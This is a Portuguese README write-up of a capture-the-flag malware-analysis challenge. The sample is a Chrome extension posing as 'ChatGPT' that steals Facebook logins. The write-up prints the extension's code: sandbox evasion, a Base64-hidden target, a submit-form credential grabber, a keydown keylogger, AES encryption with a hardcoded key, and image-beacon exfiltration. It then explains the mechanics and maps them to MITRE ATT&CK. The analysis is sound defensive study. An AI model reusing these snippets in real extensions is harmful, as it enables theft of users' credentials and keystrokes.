

# Análise de Extensão Maliciosa do Chrome — Desafio Focus

Análise estática de uma extensão do Chrome que se passa pelo **"ChatGPT"**, mas na verdade é um *infostealer* com keylogger voltado para credenciais do Facebook.

> ⚠️ A análise foi feita **apenas lendo o código**, sem instalar ou executar a extensão. O arquivo `.zip` do artefato **não** está incluído neste repositório.

## Arquivos analisados

| Arquivo | Função |
|---|---|
| `manifest.json` | Configuração: nome falso "ChatGPT", permissões e scripts |
| `loader.js` | Script de background com checagem anti-análise (VM/headless) |
| `app.js` | Content script com o roubo de credenciais, keylogger e exfiltração |
| `crypto.js` | Utilitário de criptografia (não referenciado) |
| `ui.html` | Popup de fachada "Welcome to ChatGPT" |
| `img.GIF` | Imagem de meme, sem dados escondidos |

---

## Parte 1: Permissões e Evasão

### 1. Permissão para acessar dados de sessão e autenticação

**Resposta:** `cookies`

```json
// manifest.json (linha 13)
"permissions": [
    "tabs",
    "http://*/*",
    "https://*/*",
    "storage",
    "webRequest",
    "webRequestBlocking",
    "cookies"
]
```

A permissão `cookies`, combinada com acesso a todas as URLs (`http://*/*` e `https://*/*`), permite ler os cookies de sessão de qualquer site e, com isso, sequestrar contas já logadas.

### 2. Primeira condição exata que desativa a extensão

**Resposta:** `navigator.plugins.length === 0`

```js
// loader.js (linha 6)
if (navigator.plugins.length === 0 || /HeadlessChrome/.test(navigator.userAgent)) {
    alert("Virtual environment detected. Extension will disable itself.");
    chrome.runtime.onMessage.addListener(() => { return false; });
}
```

Navegadores em sandbox ou automatizados geralmente não têm plugins instalados. A extensão usa isso (e o user-agent `HeadlessChrome`) para detectar ambientes de análise. É uma técnica de evasão (MITRE ATT&CK T1497).

---

## Parte 2: Alvos e Ofuscação

### 3. Método de codificação usado para ocultar o alvo

**Resposta:** **Base64**

```js
// app.js (linhas 2-4 e 9)
var _0xabc1 = function(_0x321a) {
    return atob(_0x321a);   // atob = decodificação Base64
};

const targets = [_0xabc1('d3d3LmZhY2Vib29rLmNvbQ==')];
```

O `==` no final é o *padding* característico do Base64, e a função `atob()` é o decodificador Base64 nativo do JavaScript. Os nomes `_0xabc1` e `_0x321a` também são uma ofuscação para dificultar a leitura.

### 4. Site alvo após decodificar no CyberChef

**Resposta:** `www.facebook.com`

Receita no CyberChef: **From Base64**

```
Entrada:  d3d3LmZhY2Vib29rLmNvbQ==
Saída:    www.facebook.com
```



O código compara `window.location.hostname` com esse valor e só ativa o roubo quando a vítima está no Facebook.

---

## Parte 3: Coleta de Dados e Keylogging

### 5. Evento do DOM usado para interceptar o envio do formulário

**Resposta:** `submit`

```js
// app.js (linhas 11-20)
document.addEventListener('submit', function(event) {
    let form = event.target;
    let formData = new FormData(form);
    let username = formData.get('username') || formData.get('email');
    let password = formData.get('password');

    if (username && password) {
        exfiltrateCredentials(username, password);
    }
});
```

Quando a vítima clica em "Entrar", o evento `submit` é disparado e a extensão lê os campos de usuário/e-mail e senha do formulário antes de ele ser enviado.

### 6. Evento usado pelo keylogger

**Resposta:** `keydown`

```js
// app.js (linhas 22-25)
document.addEventListener('keydown', function(event) {
    var key = event.key;
    exfiltrateData('keystroke', key);
});
```

Cada tecla pressionada dispara o `keydown`, e a tecla (`event.key`) é enviada na hora para o atacante. É uma requisição por tecla (MITRE ATT&CK T1056.001).

### 7. Função chamada para extrair usuário e senha

**Resposta:** `exfiltrateCredentials(username, password)`

```js
// app.js (linhas 28-32)
function exfiltrateCredentials(username, password) {
    const payload = { user: username, pass: password, site: window.location.hostname };
    const encryptedPayload = encryptPayload(JSON.stringify(payload));
    sendToServer(encryptedPayload);
}
```

A função junta usuário, senha e site num JSON, criptografa e envia ao servidor do atacante.

---

## Parte 4: Criptografia e Exfiltração Oculta

### 8. Algoritmo de criptografia usado

**Resposta:** **AES** (via biblioteca CryptoJS)

```js
// app.js (linhas 34-39)
function encryptPayload(data) {
    const key = CryptoJS.enc.Utf8.parse('SuperSecretKey123');
    const iv = CryptoJS.lib.WordArray.random(16);
    const encrypted = CryptoJS.AES.encrypt(data, key, { iv: iv });
    return iv.concat(encrypted.ciphertext).toString(CryptoJS.enc.Base64);
}
```

Os dados são cifrados com AES (modo CBC padrão do CryptoJS) usando uma chave fixa no código e um IV aleatório. O IV vai na frente do texto cifrado e o resultado é convertido em Base64 para trafegar na URL.

### 9. Elemento HTML criado para camuflar o envio

**Resposta:** `` (imagem, criada com `new Image()`)

```js
// app.js (linhas 41-45)
function sendToServer(encryptedData) {
    var img = new Image();
    img.src = '[domínio externo omitido]/collect?data=' + encodeURIComponent(encryptedData);
    document.body.appendChild(img);
}
```

Essa técnica é chamada de *image beacon*. Ao definir o `src` da imagem, o navegador faz um GET para o servidor do atacante com os dados no parâmetro `data`. Para o navegador e para quem monitora a rede, parece só o carregamento de uma imagem, e isso não passa pelas restrições de CORS aplicadas ao `fetch`/`XMLHttpRequest`.

---

## Observações adicionais

- **Disfarce (T1036):** a extensão usa o nome e a interface "ChatGPT" para ganhar a confiança da vítima.
- **Permissões excessivas:** pede `webRequest`, `webRequestBlocking` e `cookies` sem usá-las no código atual, o que sugere planos de interceptar tráfego ou roubar sessões.
- **Chave fixa no código:** `SuperSecretKey123` está escrita no próprio código, então qualquer analista pode tentar decifrar o tráfego. A chave tem **17 bytes** (o AES aceita 16, 24 ou 32), o que faz o CryptoJS gerar uma cifragem inválida que não pode ser decifrada corretamente.
- **Implementação quebrada:** a biblioteca CryptoJS nunca é carregada (o que causaria `ReferenceError`), o `crypto.js` não é referenciado e os caminhos do `manifest.json` (`system/`, `core/`, `assets/`) não batem com a estrutura dos arquivos. A intenção é maliciosa, mas o artefato parece ter sido feito para estudo e treinamento.
- **Evasão falha:** a checagem de VM no `loader.js` não impede nada. O `app.js` é injetado direto pelo manifest em `<all_urls>`, e o `alert()` ainda denuncia a detecção.

## Conceitos importantes para entender o ataque

### AES e a chave de criptografia

O **AES (Advanced Encryption Standard)** é um algoritmo de criptografia **simétrica**: a mesma chave serve para cifrar e para decifrar. O AES é o "modelo do cadeado" e a chave (`SuperSecretKey123`) é o segredo que abre esse cadeado específico.

O **IV (vetor de inicialização)** é um valor aleatório de 16 bytes usado junto na cifragem para que a mesma mensagem não gere sempre o mesmo resultado. Ele não é secreto. Por isso o código coloca o IV na frente do texto cifrado, e o atacante separa os dois do outro lado.

Num cenário real, um analista que capturasse o tráfego poderia fazer o caminho inverso: decodificar a URL, decodificar o Base64, separar os 16 primeiros bytes (IV) do resto e decifrar com a chave. Neste artefato isso não funciona, porque a chave de 17 bytes quebra a cifragem (veja acima).

### Base64 não é criptografia

O **Base64** é só uma **codificação**: transforma bytes em texto e qualquer pessoa reverte sem precisar de chave (como foi feito no CyberChef). Na extensão, os dados passam por três camadas, cada uma com uma função:

```
{"type":"keystroke","data":"a",...}   ← JSON com o dado roubado
        ↓ AES + chave       → criptografia (protege o conteúdo)
bytes embaralhados
        ↓ Base64            → codificação (transforma bytes em texto)
"k3Jd9a...=="
        ↓ encodeURIComponent → deixa o texto seguro para ir numa URL
?data=k3Jd9a...%3D%3D
```

### `fetch`, Same-Origin Policy e CORS

O **`fetch`** é a função do JavaScript para fazer requisições HTTP de dentro de uma página (buscar dados de uma API, enviar formulários etc.):

```js
fetch("https://api.exemplo.com/dados")
  .then(resposta => resposta.json())
  .then(dados => console.log(dados));
```

A **Same-Origin Policy (SOP)** é a proteção do navegador que impede um script de um site de **ler** respostas de outro domínio. O **CORS (Cross-Origin Resource Sharing)** é o mecanismo que libera exceções a essa regra, quando o servidor autoriza.

Ponto importante: o SOP/CORS protege principalmente a **leitura da resposta**, não o **envio**. Como o atacante só precisa que os dados cheguem e não precisa de resposta nenhuma, o CORS não serve de defesa contra esse tipo de exfiltração.

### Image beacon: quem é "enganado"?

Ao criar um `` com `src` apontando para o servidor do atacante, o navegador faz um GET para "baixar a imagem", e os dados roubados vão juntos no parâmetro `?data=`.

- **O servidor não é enganado.** Ele pertence ao atacante e foi feito para receber exatamente isso. Ignora a parte da "imagem", lê o parâmetro `data`, decifra e guarda.
- **Quem é enganado é o navegador e quem monitora a rede.** Carregar imagens de outros domínios é algo que todo site faz o tempo todo (logos, anúncios), então a requisição parece legítima e não sofre as restrições de CORS.
- A imagem nem precisa existir: os dados já foram entregues no momento em que a requisição chegou ao servidor.

### Fluxo completo do keylogger

A ordem dos acontecimentos é: a tecla gera a requisição, e a decifragem só acontece no servidor.

```
Vítima aperta uma tecla em www.facebook.com
  → evento keydown dispara exfiltrateData('keystroke', tecla)
  → monta o JSON → cifra com AES → converte em Base64
  → sendToServer() cria a  → navegador faz o GET
  → os dados chegam ao servidor do atacante (ainda cifrados)
  → o servidor decifra e junta as teclas em sequência
```

São **várias requisições, uma por tecla**. Digitar `senha123` gera 8 requisições, e o atacante remonta a sequência no servidor. Isso torna o ataque **barulhento**: uma rajada de GETs para um domínio desconhecido aparece facilmente num proxy, firewall ou na aba *Network* do DevTools.

Além do keylogger, o atacante tem um **segundo mecanismo**: o listener de `submit` captura e-mail e senha direto do formulário e envia os dois juntos numa única requisição (`exfiltrateCredentials`). O keylogger complementa isso, registrando tudo o que é digitado no site (mensagens, buscas etc.).

## Mapeamento MITRE ATT&CK

| Técnica | ID |
|---|---|
| Virtualization/Sandbox Evasion | T1497 |
| Obfuscated Files or Information | T1027 |
| Masquerading | T1036 |
| Input Capture: Keylogging | T1056.001 |
| Exfiltration Over Web Service / Unencrypted Channel (beacon GET) | T1567 / T1048 |